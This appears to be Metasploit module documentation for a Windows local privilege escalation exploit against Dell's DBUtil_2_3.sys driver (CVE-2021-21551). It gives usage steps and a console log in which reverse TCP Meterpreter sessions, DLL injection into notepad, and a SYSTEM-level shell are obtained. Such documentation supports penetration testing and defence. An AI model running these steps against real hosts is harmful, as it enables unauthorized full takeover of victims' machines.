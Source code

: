 ## Vulnerable Application
The DBUtil_2_3.sys driver distributed by Dell exposes an unprotected IOCTL interface that can be abused by an attacker
read and write kernel-mode memory.

### Supported Targets

* Windows 7 SP0 x64
* Windows 7 SP1 x64
* Windows 8.1 x64
* Windows 10 x64 v1607 - 21H1 (builds 14393 - 19043)
* Windows Server 2016 x64
* Windows Server 2019 x64

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_21551_dbutil_memmove`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.79:57013) at 2021-05-12 16:10:10 -0400

meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Alice Liddle
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > run exploit/windows/local/cve_2021_21551_dbutil_memmove

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 5212 launched.
[*] Reflectively injecting the DLL into 5212...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.79:57015) at 2021-05-12 16:12:43 -0400
[*] Session 3 created in the background.
meterpreter > sessions 3
[*] Backgrounding session 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
